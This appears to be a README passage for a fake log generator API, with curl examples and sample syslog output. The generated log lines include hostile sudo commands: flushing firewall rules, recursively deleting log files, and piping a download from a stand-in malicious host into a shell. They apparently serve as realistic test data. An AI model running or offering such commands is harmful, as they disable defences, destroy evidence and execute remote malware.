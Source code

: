 ***
If you want to set a timestamp to start from, you can set the timestamp input to a datatime formatted string, example "2022-01-01 12:00:00".
##### A curl example:

```bash
curl --location 'http://localhost:8000' \
--header 'Content-Type: application/json' \
--data '{"query":"query MyQuery ($type: FakerTypeEnum!, $timestamp: String!) {\n  generateFakeData(requestInput: {type: $type, timestamp: $timestamp}) {\n    count\n    data\n    type\n  }\n}","variables":{"type":"SYSLOG","timestamp":"2022-01-01 12:00:00"}}'
```
Example output:
```json
{
    "data": {
        "generateFakeData": {
            "count": 1,
            "data": [
                "Jan 01 12:00:01 srv-88.guzman.info sudo[64797]: jenkinsheather : COMMAND ; iptables -F"
            ],
            "type": "FakerTypeEnum.SYSLOG"
        }
    }
}
```

***
If you want to fake multiple log entries, you can set the count input to an int.
##### A curl example:
```bash
curl --location 'http://localhost:8000' \
--header 'Content-Type: application/json' \
--data '{"query":"query MyQuery ($type: FakerTypeEnum!, $count: Int!) {\n  generateFakeData(requestInput: {type: $type, count: $count}) {\n    count\n    data\n    type\n  }\n}","variables":{"type":"SYSLOG","count":3}}'
```
Example output:
```json
{
    "data": {
        "generateFakeData": {
            "count": 3,
            "data": [
                "Jun 27 09:11:20 desktop-86.miller-schroeder.com sudo[17630]: imason : COMMAND ; find / -name '*.log' -exec rm -f {} \\;",
                "Jun 27 09:11:21 db-03.moody-jackson.com sudo[49965]: ikoch : COMMAND ; wget -O- http://malicious.example.com/malware | sh",
                "Jun 27 09:11:22 email-17.anderson-mendoza.info sudo[42447]: alexis04 : COMMAND ; find / -name '*.log' -exec rm -f {} \\;"
            ],
            "type": "FakerTypeEnum.SYSLOG"
        }
    }
}
```
